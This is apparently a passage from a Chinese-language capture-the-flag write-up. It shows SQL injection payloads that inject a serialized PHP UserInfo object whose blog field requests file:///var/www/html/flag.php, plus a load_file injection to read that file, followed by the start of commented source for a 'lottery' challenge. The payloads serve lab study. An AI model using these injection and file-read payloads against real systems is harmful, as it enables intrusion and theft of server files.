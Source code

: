```php
/view.php?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:2:"zj";s:3:"age";i:20;s:4:"blog";s:13:"www.baidu.com";}' --+
发现只有4号位会进行反序列化操作

可以考虑使用file:///进行请求本地文件

$a = new UserInfo();
$a->name = 'zj';
$a->age = 20;
$a->blog= "file:///var/www/html/flag.php";
echo serialize($a);

O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
修改序列化内容
结果放在4号位，可以读取文件
```



```sql
1 and 0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from users#
构造序列化后传参
```



```sql
0 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#  
2号位有回显
```

## lottery

```php
<?php
require_once('config.php');
header('Content-Type: application/json');

function response($resp){
	die(json_encode($resp));
}

function response_error($msg){
	$result = ['status'=>'error'];
	$result['msg'] = $msg;
	response($result);
}

//{ action:"buy",numbers:"1234567"  }
//寻找json数据里是否有action字段，没有就报错停掉程序
function require_keys($req, $keys){
	foreach ($keys as $key) {
		if(!array_key_exists($key, $req)){
			response_error('invalid request');
		}
	}
}

//要求用户是登录才进来的
function require_registered(){
	if(!isset($_SESSION['name']) || !isset($_SESSION['money'])){
		response_error('register first');
	}
}
```